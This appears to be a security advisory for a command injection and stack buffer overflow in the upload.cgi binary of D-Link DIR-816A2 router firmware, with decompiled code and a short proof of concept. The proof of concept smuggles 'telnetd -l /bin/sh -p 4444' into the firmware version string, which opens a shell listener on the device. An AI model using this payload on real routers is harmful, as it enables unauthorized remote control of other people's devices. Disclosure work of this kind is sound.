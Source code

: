 # Command Injection and Buffer Overflow Vulnerability in `/proc/version`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-816A2 Router                                      |
| Firmware Version     | **DIR-816A2_FWv1.10CNB05_R1B011D88210.img** (other versions require verification) |
| Vulnerability Type   | **Command Injection & Stack Buffer Overflow**                |
| Vulnerable Component | `upload.cgi` (firmware version information handling module)  |
| Prerequisites        | Requires control over the `/proc/version` content            |

2. Exploitation Path

```c
int sub_401078()
{
  int v0; // $s0
  _BYTE v2[512]; // [sp+18h] [-400h] BYREF
  char v3[512]; // [sp+218h] [-200h] BYREF

  v0 = fopen("/proc/version", "r");
  fgets(v3, 512, v0);
  fclose(v0);
  sprintf(v2, "nvram_set 2860 old_firmware \"%s\"", v3);
  return system(v2);
}
```

3. **Vulnerable Binary:** `upload.cgi`.

4. 0-Day Exploitation Path:

   - In `upload.cgi`, line 8: `fgets(v3, 512, v0)` reads input without filtering special characters, which is concatenated and passed to line 11: `system(v2)`, resulting in a command injection vulnerability.

   - In `upload.cgi`, line 8: `fgets(v3, 512, v0)` limits input to 512 bytes, but at line 10: `sprintf(v2, "nvram_set 2860 old_firmware \"%s\"", v3)`, the concatenation includes a 29-byte constant portion. If `/proc/version` exceeds 481 bytes, this triggers a stack buffer overflow.

5. Proof of Concept (PoC) for Reproducing the Vulnerabilities:

```bash
# Simulate malicious firmware version (Command Injection)
echo "1.0.0; telnetd -l /bin/sh -p 4444" > /proc/version

# Simulate overlong firmware version (Buffer Overflow)
dd if=/dev/urandom bs=500 count=1 | tr -dc 'a-zA-Z0-9' > /proc/version
```